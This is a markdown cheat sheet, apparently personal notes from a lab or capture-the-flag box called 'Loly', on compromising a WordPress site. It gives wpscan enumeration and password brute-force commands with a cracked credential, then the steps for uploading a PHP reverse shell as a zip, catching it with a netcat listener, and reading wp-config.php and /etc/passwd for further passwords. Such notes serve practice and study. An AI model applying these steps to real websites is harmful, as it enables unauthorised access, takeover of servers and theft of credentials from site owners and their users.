



# Wordpress

## Update Database

```bash
wpscan --update
```

## Run WordPress against the /wordpress/ directory

```bash
#Example:
wpscan --url http://192.168.141.121/wordpress \
  --enumerate u,p,t,cb,dbe \
  --plugins-detection aggressive
```

## Wordpress Bruteforce (Must have username)

```bash
#example is Loly
wpscan --url http://192.168.141.121/wordpress \
  --usernames loly \
  --passwords /usr/share/wordlists/rockyou.txt

  #Success Example: [SUCCESS] - loly / fernando 
```

## Default Login path

```bash
http://TARGET IP/wordpress/wp-admin
# Or
http://loly.lc (This needs to be in /etc/hosts file)/wordpress/wp-admin/
#Example
http://loly.lc/wordpress/wp-admin/
```
## WordPress Reverse Shell Upload Example


## Create shell
https://www.revshells.com/

```bash
nano reverse.php

# Zip it
zip reverse.zip reverse.php

#NOTE: WP Will automatically extract a .Zip file.
```

## Upload and Access File

```bash
#NOTE: Says files are available in /banners. So where is banners? According to feroxbuser its: http://192.168.141.121/wordpress/wp-content/banners/ 

# Start listener
nc -nvlp 4444

# Access file to establish shell. In browser: http://192.168.141.121/wordpress/wp-content/banners/reverse.php
```

## Shell Established


## Wordpress Priv Esc.
```bash
#NOTE: Always look at at: 
cd /var/www/html/wordpress/

#Look for Config files
cat wp-config.php

#Look for usernames/passwords
#Example Password Found: lolyisabeautifulgirl

# Look for usernames in /etc/passwd

```
